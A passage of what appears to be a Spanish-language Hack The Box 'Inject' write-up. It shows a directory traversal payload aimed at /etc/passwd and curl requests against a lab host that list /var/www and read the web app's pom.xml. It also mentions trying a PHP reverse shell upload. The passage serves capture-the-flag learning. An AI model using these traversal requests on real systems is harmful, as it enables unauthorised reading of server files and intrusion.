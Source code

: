 La carpera **/upload** nos llama la atención, ingresamos a ella y podemos ver que nos dejan subir archivos
![Upload]({{ 'assets/img/posts/htb/inject/up.png' | relative_url }}){: .center-image }
_Upload_

Si subimos una reverse shell de PHP nos dice que solo adminte imagenes, subimos una imagen random y miremos resultados.
![Imagen]({{ 'assets/img/posts/htb/inject/up1.png' | relative_url }}){: .center-image }
_Imagen_

entramos a ver la imagen y .....mmmm  **img?=** eso huele a **Directory Transversal**. Podemos probar ver el **/etc/passwd** ingresamos la cadena 

![Searchsploit]({{ 'assets/img/posts/htb/inject/dt.png' | relative_url }}){: .center-image }
_Directory Transversal_
```
../../../../../../../../../../../../../../../../etc/passwd
```
Pero no vemos nada, podemos probar con burp o curl, interceptamos la petición y la mandamos al repeater.
![Burpsuite]({{ 'assets/img/posts/htb/inject/burp.png' | relative_url }}){: .center-image }
_Burpsuite_
Analizando mas a fondo la web  podemos intentar listar la carppeta donde se guardan las paginas web **/var/www/**
```bash
❯ curl 'http://10.129.178.241:8080/show_image?img=.././../../../../../././../../../../../var/www/'
html
WebApp
```
la careta **WebApp** nos llama la atención podemos listar su contenido
```bash
❯ curl 'http://10.129.178.241:8080/show_image?img=.././../../../../../././../../../../../var/www/WebApp'
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```
Un archivo .xml, lo leemos.
```
❯ curl 'http://10.129.178.241:8080/show_image?img=.././../../../../../././../../../../../var/www/WebApp/pom.xml'
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
```